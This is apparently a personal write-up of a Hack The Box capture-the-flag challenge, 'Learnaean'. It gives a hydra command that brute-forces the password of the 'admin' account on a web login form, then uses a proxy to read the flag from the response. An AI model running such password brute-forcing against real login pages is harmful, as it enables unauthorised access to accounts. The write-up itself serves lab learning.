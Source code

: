 # HTB CTF - Learnaean

- CTF Name: Learnaean
- Resource: Hack The Box CTF
- Difficulty: [20 pts] range
- Number of Flags: 1

Note::: NO, I won't be posting my found FLAGS, but I will be posting the methods I used. 

<hr>


### Flag1
__Acquired By:__
1. cmd first... `cd ..` back 1 level
2. `hydra -l admin -P /usr/share/wordlist.txt.gz xxx.xx.xxx.xxx http-post-form "/:password=^PASS^:Invalid password !" -s XXXXX`
    - Returned: ```14344399 loging tries
    login: admin
    password: XXXXXXXXXXXXXX```

3. Start proxy intercept
4. login to the site and repeat the request in the proxy or view the request in the browsers Developer tools. The flag is in the response.


### Learned
This challenge taught me a little bit about hydra and the anticipated responces that it can catch/look for.

<hr>

Happy Hacking
![](https://media.giphy.com/media/l3vRmVv5P01I5NDAA/giphy.gif)

### Resources:
1. https://robertheaton.com/2013/07/29/padding-oracle-attack/


###### Please Note: that I am still learning and if something that I have stated is incorrect please let me know. I would love to learn more about what I may not understand fully.